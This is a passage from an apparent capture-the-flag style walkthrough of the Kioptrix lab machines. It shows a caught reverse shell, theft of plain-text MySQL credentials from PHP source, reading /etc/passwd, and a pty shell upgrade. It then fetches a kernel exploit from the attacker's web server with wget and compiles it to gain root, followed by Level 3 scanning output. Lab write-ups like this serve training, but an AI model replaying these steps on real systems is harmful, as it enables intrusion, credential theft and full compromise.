   listening on [any] 5555 ...
   connect to [192.168.101.111] from (UNKNOWN) [192.168.101.112] 32772
   bash: no job control in this shell
   bash-3.00$ whoami
   apache
   bash-3.00$ id
   uid=48(apache) gid=48(apache) groups=48(apache)
   bash-3.00$ uname -r
   2.6.9-55.EL
   bash-3.00$ 
   ```

   **View PHP source code**

   My first instinct is to check the PHP source to see if the MySQL credentials are available in plain-text. Credentials are often re-used for various other things.

   ```
   cat index.php
   ```

   Here we find some MySQL credentials right away:

   ```
   mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
   ```

   **Trying this on SSH**

   Let’s see what users are available on the system:

   ```
   cat /etc/passwd
   ```

   This reveals a couple bash users at the end, `john` and `harold`. Before we go further we can try the “hiroshima” password on both accounts by SSH, and *could* also start a hybrid/dictionary attack against the SSH login in the background, if we were stuck.

   `hiroshima` did not work for either user on SSH, and I don’t feel like attacking the SSH login with a wordlist just yet. Moving on…

   **Checking MySQL Data**

   The MySQL server is set to only allow logins from localhost, and the `/var/www/html` directory is not writable by our limited shell user (apache). To work with the MySQL database we can create PHP files or other scripts in `/tmp` (writable by apache) that enumerate the contents of the database (using our pilfered credentials above), or just directly use the CLI client. Using the CLI client is the simpler option.

   But! The MySQL CLI client does not work properly over our improvised reverse shell. (It’s buggy and weird, try it yourself to see what I mean.) To make it work properly, we can “upgrade” our reverse shell by running a python command:

   ```
   python -c 'import pty; pty.spawn("/bin/bash")'
   ```

   Now we can connect:

   ```
   mysql -u john -p
   ```

   

   

   MySQL CLI

   Digging around in the MySQL DB for `webapp`, I found plain-text passwords for the web application that would allow us to login without using SQL injection. But I didn’t end up finding any other use for these passwords. That’s not to say there isn’t any, though.

   

   

   Selecting data from the webapp.users table and finding more passwords

```
bash-3.00$ cat /etc/*-release
CentOS release 4.5 (Final)
bash-3.00$ uname -r
2.6.9-55.EL
bash-3.00$ whoami
apache
bash-3.00$ 
```

4. Privilege escalation

   Looking for locally available exploits

```sh
$ searchsploit linux kernel Centos                                                                              2 ⨯
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel (Debian 7.7/8.5/9.0 / Ubuntu 14.04.2/16.04.2/17.04 / Fedora 22/25 / Ce | linux_x86-64/local/42275.c
Linux Kernel (Debian 7/8/9/10 / Fedora 23/24/25 / CentOS 5.3/5.11/6.0/6.8/7.2.1511) | linux_x86/local/42274.c
Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8 | linux/local/9545.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4)  | linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) -  | linux_x86/local/9542.c
Linux Kernel 2.6.32 < 3.x (CentOS 5/6) - 'PERF_EVENTS' Local Privilege Escalation ( | linux/local/25444.c
Linux Kernel 2.6.x / 3.10.x / 4.14.x (RedHat / Debian / CentOS) (x64) - 'Mutagen As | linux_x86-64/local/45516.c
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - 'aiptek' Nullpointer Dereference          | linux/dos/39544.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - 'cdc_acm' Nullpointer Dereference         | linux/dos/39543.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - 'cypress_m8' Nullpointer Dereference      | linux/dos/39542.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - 'digi_acceleport' Nullpointer Dereference | linux/dos/39537.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - 'mct_u232' Nullpointer Dereference        | linux/dos/39541.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - 'Wacom' Multiple Nullpointer Dereferences | linux/dos/39538.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - visor 'treo_attach' Nullpointer Dereferen | linux/dos/39539.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - visor clie_5_attach Nullpointer Dereferen | linux/dos/39540.txt
Linux Kernel 3.10.0 (CentOS 7) - Denial of Service                                  | linux/dos/41350.c
Linux Kernel 3.10.0-229.x (CentOS / RHEL 7.1) - 'iowarrior' Driver Crash (PoC)      | linux/dos/39556.txt
Linux Kernel 3.10.0-229.x (CentOS / RHEL 7.1) - 'snd-usb-audio' Crash (PoC)         | linux/dos/39555.txt
Linux Kernel 3.10.0-514.21.2.el7.x86_64 / 3.10.0-514.26.1.el7.x86_64 (CentOS 7) - S | linux/local/42887.c
Linux Kernel 3.14.5 (CentOS 7 / RHEL) - 'libfutex' Local Privilege Escalation       | linux/local/35370.c
Linux Kernel 4.14.7 (Ubuntu 16.04 / CentOS 7) - (KASLR & SMEP Bypass) Arbitrary Fil | linux/local/45175.c
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Transfering exploit (9545.c)from Kali machine to the target machine

Setting up the local webserver

```sh
$ python -m SimpleHTTPServer 80           
Serving HTTP on 0.0.0.0 port 80 ...
```


Transfering exploit from local database to desktop

```sh
$ cp /usr/share/exploitdb/exploits/bsd/local/19545.c .
```


It is important to note that on our target machine we need to change directory to tmp (write/permissions access), then we can grab the exploit with wget command

```sh
bash-3.00$ cd /tmp
bash-3.00$ wget http://192.168.101.100/9545.c
--16:44:08--  http://192.168.101.100/9545.c
           => `9545.c'
Connecting to 192.168.101.100:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9,783 (9.6K) [text/plain]

    0K .........                                             100%  358.84 MB/s

16:44:08 (358.84 MB/s) - `9545.c' saved [9783/9783]

bash-3.00$ ls
9545.c
bash-3.00$ gcc -o exploit 9545.c
9545.c:376:28: warning: no newline at end of file
bash-3.00$ ls
9545.c
exploit
bash-3.00$ ./exploit	
sh: no job control in this shell
sh-3.00# whoami
root
sh-3.00# 
```

## Kioptrix Level 3

1. Discovery

   ```sh
   $ netdiscover -r 192.168.101.0/24
   Currently scanning: Finished!   |   Screen View: Unique Hosts                                                       
                                                                                                                        
    168 Captured ARP Req/Rep packets, from 14 hosts.   Total size: 10160                                                
    _____________________________________________________________________________
      IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
    -----------------------------------------------------------------------------           192.168.101.113 00:0c:29:34:e4:62     12     720  VMware, Inc.                       
   ```

   

2. Scanning

   ```sh
   $ nmap -sV -T4 -O 192.168.101.113                            
   Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-01 23:12 EDT
   Nmap scan report for 192.168.101.113
   Host is up (0.0012s latency).
   Not shown: 998 closed ports
   PORT   STATE SERVICE VERSION
   22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
   80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
   MAC Address: 00:0C:29:34:E4:62 (VMware)
   Device type: general purpose
   Running: Linux 2.6.X
   OS CPE: cpe:/o:linux:linux_kernel:2.6
   OS details: Linux 2.6.9 - 2.6.33
   Network Distance: 1 hop
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
   
   OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 8.55 seconds
   
   ```

3. Reconnaisance

   

   

   **Nikto**

   ```
   $ nikto -host http://192.168.101.113
   - Nikto v2.1.6
   ---------------------------------------------------------------------------
   + Target IP:          192.168.101.113
   + Target Hostname:    192.168.101.113
   + Target Port:        80
   + Start Time:         2021-11-01 23:23:34 (GMT-4)
   ---------------------------------------------------------------------------
   + Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
   + Cookie PHPSESSID created without the httponly flag
   + Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.6
   + The anti-clickjacking X-Frame-Options header is not present.
   + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
   + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
   + No CGI Directories found (use '-C all' to force check all possible dirs)
   + Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
   + PHP/5.2.4-2ubuntu5.6 appears to be outdated (current is at least 7.2.12). PHP 5.6.33, 7.0.27, 7.1.13, 7.2.1 may also current release for each branch.
   + Server may leak inodes via ETags, header found with file /favicon.ico, inode: 631780, size: 23126, mtime: Fri Jun  5 15:22:00 2009
   + Web Server returns a valid response with junk HTTP methods, this may cause false positives.
   + OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
   + OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
   + OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
   + OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
   + OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
   + OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
   + OSVDB-3268: /icons/: Directory indexing found.
   + OSVDB-3233: /icons/README: Apache default file found.
   + /phpmyadmin/: phpMyAdmin directory found
   + OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
   + 7914 requests: 0 error(s) and 19 item(s) reported on remote host
   + End Time:           2021-11-01 23:24:02 (GMT-4) (28 seconds)
   ---------------------------------------------------------------------------
   + 1 host(s) tested
   ```

   **Dirb**

   ```sh
   $ dirb http://192.168.101.113                                                                                 130 ⨯
   
   -----------------
   DIRB v2.22    
   By The Dark Raver
   -----------------
   
   START_TIME: Mon Nov  1 23:24:30 2021
   URL_BASE: http://192.168.101.113/
   WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
   
   -----------------
   
   GENERATED WORDS: 4612                                                          
   
   ---- Scanning URL: http://192.168.101.113/ ----
   ==> DIRECTORY: http://192.168.101.113/cache/                                                                         
   ==> DIRECTORY: http://192.168.101.113/core/                                                                          
   + http://192.168.101.113/data (CODE:403|SIZE:326)                                                                    
   + http://192.168.101.113/favicon.ico (CODE:200|SIZE:23126)                                                           
   ==> DIRECTORY: http://192.168.101.113/gallery/                                                                       
   + http://192.168.101.113/index.php (CODE:200|SIZE:1819)                                                              
   ==> DIRECTORY: http://192.168.101.113/modules/                                                                       
   ==> DIRECTORY: http://192.168.101.113/phpmyadmin/                                                                    
   + http://192.168.101.113/server-status (CODE:403|SIZE:335)                                                           
   ==> DIRECTORY: http://192.168.101.113/style/                                                                         
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/cache/ ----
   + http://192.168.101.113/cache/index.html (CODE:200|SIZE:1819)                                                       
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/core/ ----
   ==> DIRECTORY: http://192.168.101.113/core/controller/                                                               
   + http://192.168.101.113/core/index.php (CODE:200|SIZE:0)                                                            
   ==> DIRECTORY: http://192.168.101.113/core/lib/                                                                      
   ==> DIRECTORY: http://192.168.101.113/core/model/                                                                    
   ==> DIRECTORY: http://192.168.101.113/core/view/                                                                     
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/gallery/ ----
   + http://192.168.101.113/gallery/index.php (CODE:500|SIZE:5650)                                                      
   ==> DIRECTORY: http://192.168.101.113/gallery/photos/                                                                
   ==> DIRECTORY: http://192.168.101.113/gallery/themes/                                                                
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/modules/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/phpmyadmin/ ----
   + http://192.168.101.113/phpmyadmin/favicon.ico (CODE:200|SIZE:18902)                                                
   + http://192.168.101.113/phpmyadmin/index.php (CODE:200|SIZE:8136)                                                   
   ==> DIRECTORY: http://192.168.101.113/phpmyadmin/js/                                                                 
   ==> DIRECTORY: http://192.168.101.113/phpmyadmin/lang/                                                               
   + http://192.168.101.113/phpmyadmin/libraries (CODE:403|SIZE:342)                                                    
   + http://192.168.101.113/phpmyadmin/phpinfo.php (CODE:200|SIZE:0)                                                    
   ==> DIRECTORY: http://192.168.101.113/phpmyadmin/scripts/                                                            
   ==> DIRECTORY: http://192.168.101.113/phpmyadmin/themes/                                                             
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/style/ ----
   + http://192.168.101.113/style/admin.php (CODE:200|SIZE:356)                                                         
   + http://192.168.101.113/style/index.php (CODE:200|SIZE:0)                                                           
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/core/controller/ ----
   + http://192.168.101.113/core/controller/index.php (CODE:200|SIZE:0)                                                 
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/core/lib/ ----
   + http://192.168.101.113/core/lib/index.php (CODE:200|SIZE:0)                                                        
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/core/model/ ----
   + http://192.168.101.113/core/model/index.php (CODE:200|SIZE:0)                                                      
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/core/view/ ----
   + http://192.168.101.113/core/view/index.php (CODE:200|SIZE:0)                                                       
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/gallery/photos/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/gallery/themes/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/phpmyadmin/js/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/phpmyadmin/lang/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/phpmyadmin/scripts/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)
                                                                                                                        
   ---- Entering directory: http://192.168.101.113/phpmyadmin/themes/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)
                                                                                  
   -----------------
   END_TIME: Mon Nov  1 23:25:02 2021
   DOWNLOADED: 46120 - FOUND: 17
   
   ```

   

